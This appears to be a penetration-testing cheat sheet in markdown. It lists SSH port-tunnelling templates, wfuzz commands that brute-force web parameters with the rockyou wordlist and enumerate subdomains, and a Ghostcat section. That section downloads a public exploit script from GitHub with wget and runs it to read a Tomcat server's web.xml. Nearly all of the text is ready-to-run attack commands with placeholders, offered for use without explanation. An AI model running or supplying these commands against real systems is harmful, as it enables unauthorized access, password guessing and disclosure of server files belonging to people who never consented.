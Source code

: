 # Port Tunnelling

### Using SSH
```
ssh -N -L {PORT}:127.0.0.1:{PORT} {USER}@{TARGET}

# With Key
ssh -N -L {PORT}:127.0.0.1:{PORT} -i {KEY} {USER}@{TARGET}
```

# WEB Fuzz

### Parameter
```
# URL Parameter
wfuzz -c -z file,/usr/share/wordlists/rockyou.txt http://{TARGET}/example/example.php?{PARAMETER}=FUZZ

# POST Data
wfuzz -c -z file,/usr/share/wordlists/rockyou.txt -d "{PARAMETER_1}=FUZZ&{PARAMETER_2}=FUZZ" -u http://{TARGET}/example.php
```

### Subdomain
```
wfuzz -c --hw 977 -u http://{TARGET} -H "Host: FUZZ.{TARGET}" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

# Jserv

```
# Get ajpShooter
wget https://raw.githubusercontent.com/00theway/Ghostcat-CNVD-2020-10487/master/ajpShooter.py

# Run ajpShooter
python3 ajpShooter.py http://{TARGET} {PORT} /WEB-INF/web.xml read
```


















